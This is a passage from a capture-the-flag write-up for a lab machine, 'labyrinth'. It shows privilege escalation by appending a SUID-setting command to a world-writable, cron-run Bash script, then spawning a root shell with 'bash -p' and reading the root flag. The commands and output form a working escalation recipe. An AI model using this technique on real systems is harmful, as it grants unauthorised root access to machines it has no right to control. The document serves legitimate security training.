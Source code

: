 Ohh! There must be a cronjob is running this Bash script! And, the most importantly, the `timer.sh` script is **world-writable**!! Which means we can escalate to root!

We can modify the Bash script into **adding a SUID set bit to `/bin/bash`**:

```
daemon@labyrinth:/timers$ echo "chmod +s /bin/bash" >> timer.sh

daemon@labyrinth:/timers$ cat timer.sh 
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
chmod +s /bin/bash
```

Now **wait for the cronjob runs**:

```
daemon@labyrinth:/timers$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1,1M jún    7  2019 /bin/bash
```

We can confirm the script is being ran by issuing `ls -lah /bin/bash`. If you see there is a **`s` sticky bit**, that means the script is **successfully executed**.

Now, we spawn a SUID privilege bash shell!

```
daemon@labyrinth:/timers$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
labyrinth
uid=1(daemon) gid=1(daemon) euid=0(root) egid=0(root) groups=0(root),1(daemon)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9d:55:2f:26:31 brd ff:ff:ff:ff:ff:ff
    inet 10.10.92.1/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2260sec preferred_lft 2260sec
    inet6 fe80::9d:55ff:fe2f:2631/64 scope link 
       valid_lft forever preferred_lft forever
```

And we're root! :D

# Rooted

**Flag4:**
```
bash-4.4# cat /root/da_king_flek.txt
fL4G{Redacted}
```

# Conclusion

What we've learned:

1. Reverse Enigineering Javascript
2. Union-Based SQL Injection
3. Command Injection
4. Filter Bypass
5. Privilege Escalation via Misconfigured Bash Script & Cronjob